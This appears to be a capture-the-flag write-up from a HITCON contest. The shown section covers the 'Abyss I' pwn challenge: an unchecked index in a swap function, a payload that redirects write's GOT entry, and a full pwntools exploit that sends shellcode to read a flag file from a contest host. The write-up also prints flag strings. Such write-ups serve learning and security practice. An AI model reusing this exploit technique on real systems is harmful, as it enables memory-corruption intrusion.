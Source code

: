      - [Oh My Raddit v2](#oh-my-raddit-v2)
       - [Arbitrary File Read](#arbitrary-file-read)
       - [Browsing source code / issues](#browsing-source-code--issues)
     - [Baby Cake](#baby-cake)
       - [Failed Attempts](#failed-attempts)
       - [Arbitrary File Read](#arbitrary-file-read-1)
       - [phar unserialization to RCE](#phar-unserialization-to-rce)
   - [Reverse](#reverse)
     - [EOP](#eop)



## Pwn
### Abyss I
* NX disable.
* `swap` function doesn't check the index, and the `machine` == `stack[-1]`.

```clike
void swap_()
{
  unsigned int tmp;

  tmp = stack[machine - 1];
  stack[machine - 1] = stack[machine - 2];
  stack[machine - 2] = tmp;
}

```
* We can control the value of `machine` by `swap()`.

```python
p = '31' + 'a' + op['minus']         # -31
p += op['swap']                      # stack point to write.got
p += 'a' + op['store']               # store the high 4 byte
p += str( 2107662 + 70 ) + op['add'] # add offset -> write.got point to our input
p += 'a' + op['fetch']               # recover high 4 byte
p += op['write'],                    # write() to jmp to our shellcode

```
* exploit:

```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    shellcraft.pushstr( 'flag\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )

y.interactive()
```